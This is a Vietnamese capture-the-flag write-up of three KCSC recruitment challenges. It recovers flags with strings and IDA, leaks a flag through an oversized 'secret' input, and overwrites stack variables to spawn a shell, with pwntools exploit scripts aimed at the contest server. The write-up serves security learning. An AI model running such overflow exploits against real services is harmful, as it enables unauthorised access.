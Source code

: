 # kcsc ctf recruit member
Đợt này mình chuẩn bị không kỹ càng lắm nên giải được ít bài =((
## Treasue
![treasure1](treasure1.png)
Ta được phát 1 file như này

    trungdo@TEFO:/mnt/c/ctf/kcsc/treasure$ file treasure
    treasure: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9fb3a8f185da018cb4d4149f4b8dfc7335e2542c, for GNU/Linux 3.2.0, not stripped
Chạy thử ta có part1 của flag: 

    trungdo@TEFO:/mnt/c/ctf/kcsc/treasure$ ./treasure
    Part 1: KCSC{
Thử tìm kiếm chuỗi trong file binary thì có part 3: 

    trungdo@TEFO:/mnt/c/ctf/kcsc/treasure$ strings treasure | grep Part
    Part 1: KCSC{
    Part 2: %s
    Part 3: _27651d2df78e1998}
Ném vào IDA được phần còn lại 
![treasure2](treasure2.png)
`flag : KCSC{4_t1ny_tr34sur3_27651d2df78e1998}`
## Cat
![cat1](cat1.png)
Vẫn được phát cho 1 `file binary`

    trungdo@TEFO:/mnt/c/ctf/kcsc/cat$ file cat
    cat: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4f771cfd97efdbadc12e89fe42513cb94da5a7e8, for GNU/Linux 3.2.0, not stripped
    trungdo@TEFO:/mnt/c/ctf/kcsc/cat$ ./cat
    Username: hoho
    Password: hihi
    Unauthorized access is forbidden!
Nó bắt nhập `username` `password` mn ạ :(. Bắt đầu hành trình tìm `username` và `password` của em ló
Đầu tiên cứ phải check xem có gì hay k cái đã
Chạy lệnh strings và tớ tìm đc cái này
![cat2](cat2.png)
Chắc hẳn `Username` là `KCSC_4dm1n1str4t0r`, còn `password` là `wh3r3_1s_th3_fl4g` rồi.
Nhưng mà cuộc đời thì k nên tin bố con thằng nào cả, kể cả thằng ra đề. Nên để chắc chắn thì tớ sẽ check lại (ai ngờ đúng thật =)))

    trungdo@TEFO:/mnt/c/ctf/kcsc/cat$ ./cat
    Username: KCSC_4dm1n1str4t0r
    Password: wh3r3_1s_th3_fl4g
    Logged in!
    Your secret: aaaaaaaaaaaaaaa
    Saving secret "�aaaaaaaaaaaaaaa
    "...
    Done! Exiting...
Khi `login` thành công ló lại bắt mình nhập cái gì đó =(((. Cứ tưởng `login` thành công sẽ có `flag` chứ
![cat3](cat3.png)
Tạo fake flag debug thử coi

    trungdo@TEFO:/mnt/c/ctf/kcsc/cat$ echo "fake flag" > flag.txt
    trungdo@TEFO:/mnt/c/ctf/kcsc/cat$ gdb cat
Ném vào `IDA` tớ thấy nó đọc **512** byte nên tớ cho nó **600** byte thử
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-4h]
  int v5; // [rsp+Ch] [rbp-4h]

  init();
  read_flag();
  printf("Username: ");
  v4 = read(0, username, 0x20uLL);
  if ( username[v4 - 1] == 10 )
    username[v4 - 1] = 0;
  printf("Password: ");
  v5 = read(0, password, 0x20uLL);
  if ( password[v5 - 1] == 10 )
    password[v5 - 1] = 0;
  if ( !strcmp(username, "KCSC_4dm1n1str4t0r") && !strcmp(password, passwd) )
  {
    puts("Logged in!");
    printf("Your secret: ");
    read(0, secret, 512uLL);
    printf("Saving secret \"%s\"...\n", secret);
    puts("Done! Exiting...");
  }
  else
  {
    puts("Unauthorized access is forbidden!");
  }
  return 0;
}
```
![cat4](cat4.png)
Ố ồ xem chúng ta có gì nào. Đoạn cuối chính là `fake flag` mình vừa tạo ban nãy
Giờ thì tạo script exploit thôi (hehee boi)
```python
from pwn import *
username = b"KCSC_4dm1n1str4t0r"
passwd = b"wh3r3_1s_th3_fl4g"
payload = b"A"*600
host = "146.190.115.228"
port = 9994
con = remote(host, port)
print(con.recvuntil(b": "))
con.sendline(username)
print(con.recvuntil(b": "))
con.sendline(passwd)
print(con.recvuntil(b": "))
con.sendline(payload)
con.interactive()

```
![cat5](cat5.png)
Yeah sure chắc chắn là như vậy rồi =))
`flag: KCSC{w3ll_d0n3_y0u_g0t_my_s3cr3t_n0w_d04942f299}`
## Over the write
![otf1](otf1.png)
Vẫn là 1 `file binary`. Dow về thôi

    trungdo@TEFO:/mnt/c/ctf/kcsc/overthewrite$ file overthewrite
    overthewrite: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5639b02135698a4424c71be1e331ec297debd234, for GNU/Linux 3.2.0, not stripped
    trungdo@TEFO:/mnt/c/ctf/kcsc/overthewrite$ ./overthewrite
    Welcome to OverTheWrite! Please enter your key to login!
    Key: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    Stage 1 failed!
Nghe cái tên đã nặc mùi `overflow` rồi. Như thói quen, chạy lệnh `strings` xem có gì hot k (Đã thử và k có gì đặc biệt :( )
Ném vào `IDA`:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf[4]; // [rsp+0h] [rbp-50h] BYREF
  char s1[8]; // [rsp+20h] [rbp-30h] BYREF
  __int64 v6; // [rsp+28h] [rbp-28h]
  __int64 v7; // [rsp+38h] [rbp-18h]
  __int64 v8; // [rsp+40h] [rbp-10h]
  int v9; // [rsp+4Ch] [rbp-4h]

  *(_QWORD *)s1 = 0LL;
  v6 = 0LL;
  v9 = 0;
  v8 = 0LL;
  v7 = 0LL;
  buf[0] = 0LL;
  buf[1] = 0LL;
  buf[2] = 0LL;
  buf[3] = 0LL;
  ((void (__fastcall *)(int, const char **, const char **))init)(argc, argv, envp);
  puts("Welcome to OverTheWrite! Please enter your key to login!");
  printf("Key: ");
  read(0, buf, 80uLL);
  if ( v9 != 0x13371337 )
    fail(1u);
  if ( v8 != 0xDEADBEEFCAFEBABELL )
    fail(2u);
  if ( v7 != 0x215241104735F10FLL )
    fail(3u);
  if ( strcmp(s1, "Welcome to KCSC") )
    fail(4u);
  system("/bin/sh");
  return 0;
}
```
Chương trình khởi tạo 1 mảng `_int64 buff[4]` và 3 biến local `v6`, `v7`, `v8` mỗi phần tử chiếm `8 byte`, mảng `char s1` chiếm `8 byte`, `v9` chiếm `4 byte`
chương trình sẽ lần lượt kiểm tra các điều kiện nếu sai thì `exit` 
Kiểm tra 1 chút
![otw2](otw2.png)
`CANARY` *disable* nên hoàn toàn có thể `overflow` được
Còn exploit ở đâu? Tất nhiên là ở biến buffer rồi =))
![otw3](otw3.png)
Look at this. Trước khi 1 func được gọi thì các `argument` của nó sẽ được push vào stack trước, nên chắc chắn **[rbp-0x50]** là address của `buff`. Nhưng vấn đề ở đây là func `read` sẽ đọc **0x50 byte** trong khi độ dài của `buff` chỉ là **8 x 4= 32 byte**. Vậy nên đây là nơi tớ sẽ exploit!

Khi chương trình chạy `stack` sẽ trông dư lày: 
![otw4](otw4.png)
**Exploit**
```python
from pwn import *
v9 = 0x13371337
v8 = 0xDEADBEEFCAFEBABE
v7 = 0x215241104735F10F
s1 = b"Welcome to KCSC\0"
junk = b"A"*100
host = "146.190.115.228"
port = 9992
payload = b"A" * 32 #buff
payload += s1
payload += b"A"*8 #v6
payload += p64(v7)
payload += p64(v8)
payload += b'A'*4
payload += p32(v9)
p = remote(host, port)
#p = process("./overthewrite")
print(p.recvuntil(b": "))
print(payload)
p.send(payload)
p.interactive()

```

Lúc đầu tớ thêm `b"A"` thay vì `/0` vào `s1` nên chạy nó cứ bị sai, về sau mới nhớ =))